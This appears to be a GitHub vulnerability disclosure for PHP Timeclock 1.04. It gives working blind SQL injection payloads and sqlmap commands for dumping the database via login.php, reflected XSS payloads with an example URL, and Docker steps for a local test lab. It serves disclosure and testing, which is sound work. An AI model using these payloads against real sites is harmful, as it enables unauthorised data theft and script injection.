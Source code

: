 # PHP Timelock 1.04 SQLi and XSS Vulnerabilities 

![](res/reflective-xss.png)


> This repository contains details on several vulnerabilities I found in the [PHP TimeClock](http://timeclock.sourceforge.net/) application. PHP Timeclock is a legacy php application created in 2006 and maintained up until 2013. Unfortunately, several production sites still use the application, and can be identified with basic OSINT. The vulnerabilities include, 
> 1) Unauthenticated Time and Boolean Based SQL Injection (SQLI)
> 2) Unauthenticated Reflected Cross Site Scripting (XSS)
> 3) Authenticated Reflected Cross Site Scripting (XSS)  



**Index**
- [PHP Timelock 1.04 SQLi and XSS Vulnerabilities](#php-timelock-104-sqli-and-xss-vulnerabilities)
  - [Indentified Vulnerabilities](#indentified-vulnerabilities)
    - [PHP Timeclock 1.04 Time and Boolean Based Blind SQL Injection](#php-timeclock-104-time-and-boolean-based-blind-sql-injection)
    - [PHP Timeclock 1.04 Multiple Unauthenticated Reflected Cross Site Scripting (XSS)](#php-timeclock-104-multiple-unauthenticated-reflected-cross-site-scripting-xss)
  - [Local Testing](#local-testing)
  - [Remote Testing](#remote-testing)

## Indentified Vulnerabilities 

### PHP Timeclock 1.04 Time and Boolean Based Blind SQL Injection  

![](res/sqli.png)


Description: PHP Timeclock is vulnerable to both Boolean and Time Based SQL Injection on login.php via the login_userid parameter. This PoC shows how SQLmap can be used to exploit this vulnerability to dump database contents

Boolean Based Payload: user' RLIKE (SELECT (CASE WHEN (8535=8535) THEN 0x75736572 ELSE 0x28 END))-- QwMo&login_password=pass
Time Based Payload: user' AND (SELECT 4247 FROM (SELECT(SLEEP(5)))ztHm) AND 'WHmv'='WHmv&login_password=pass


Steps to reproduce:
  1. Run sqlmap against a instance of PHP Timeclock
  2. Follow the instructions below for specific versions of MySQL


MySQL >= 5.0.12: 
```
$ sqlmap -u http://localhost/login.php --method POST --data "login_userid=user&login_password=pass" -p login_userid --not-string="Warning" --dbms=MySQL --technique=TB --current-db
---
Parameter: login_userid (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: login_userid=user' AND (SELECT 4247 FROM (SELECT(SLEEP(5)))ztHm) AND 'WHmv'='WHmv&login_password=pass
---
```

MySQL < 5: On versions using MySQL < 5, table names must be included as arguments as information_schema was not introduced into MySQL yet.

```
$ sqlmap -u http://localhost/login.php --method POST --data "login_userid=user&login_password=pass" -p login_userid --not-string="Warning" --technique=B -D timeclock -T employees, -C empfullname --dump --dbms=MySQL -v 
---
Parameter: login_userid (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: login_userid=user' RLIKE (SELECT (CASE WHEN (8535=8535) THEN 0x75736572 ELSE 0x28 END))-- QwMo&login_password=pass
---

```  

### PHP Timeclock 1.04 Multiple Unauthenticated Reflected Cross Site Scripting (XSS)


Description: PHP Timeclock version 1.04 (and prior) suffers from multiple Unauthenticated Reflected Cross-Site Scripting Vulnerabilities. Arbitrary javascript can be injected into the application by appending a termination /'> and payload directly to the end of the GET request URL. The vulnerable paths include (1) /login.php  (2) /timeclock.php (3) /reports/audit.php and (4) /reports/timerpt.php. 


Payload: /'><svg/onload=alert`xss`>

Example: http://target/login.php/'%3E%3Csvg/onload=alert%60xss%60%3E

![](res/reflective-xss.png)

Steps to reproduce:
  1. Navigate to a site that uses PHP Timeclock 1.04 or earlier
  2. Make a GET request to one of the four resources mentioned above
  3. Append /'> and the payload to the end of the request
  4. Submit the request and observe payload execution
## Local Testing 

This repository was my attempt at dockerizing the 2006-2013 [PHP TimeClock](http://timeclock.sourceforge.net/) application. It uses an adapted version of [rodvlopes/php4-mysql4-apache2.2-docker](https://github.com/rodvlopes/php4-mysql4-apache2.2-docker) to manage setting up legacy versions of php,mysql, and apache which are required in php timeclock due to several deprecated functions. 


It was a bit of a pain to create a test environment for PHP Timeclock due to the fact it requires legacy version of PHP and MySQL. To get version 1.04 up and running without modifying source code, the application requires MySQL 4 and PHP 4. To accomondate this, I created this docker container based on [rodvlopes/php4-mysql4-apache2.2-docker](https://github.com/rodvlopes/php4-mysql4-apache2.2-docker). 

1) Clone the repo  

 `git clone https://github.com/tcbutler320/php-timeclock-docker`

2) cd into the docker folder 

`cd php-timeclock-docker/docker`

3) build docker image 

`docker build -f Dockerfile.ubuntu -t timeclock .`

4) Run the image 

`docker run -d --name timeclock --restart=always -p 80:80 -v ./data:/usr/local/mysql/var -v ./timeclock-1.04:/usr/local/apache2/htdocs timeclock`

5) Drop into the container with bash  

`sudo docker exec -it timeclock /bin/bash  ` 

6) open a mysql shell 

`mysql -u root -p`, using password IAmroot

7) create the timeclock database 

`create database timeclock;`

8)  exit the mysql shell
   
9)  populate the database with the sql file 

`mysql -u root -p timeclock < /usr/local/apache2/htdocs/create_tables.sql`

## Remote Testing   

Upon request I will open a remote server for testing, drop me message on twitter @tbutler0x90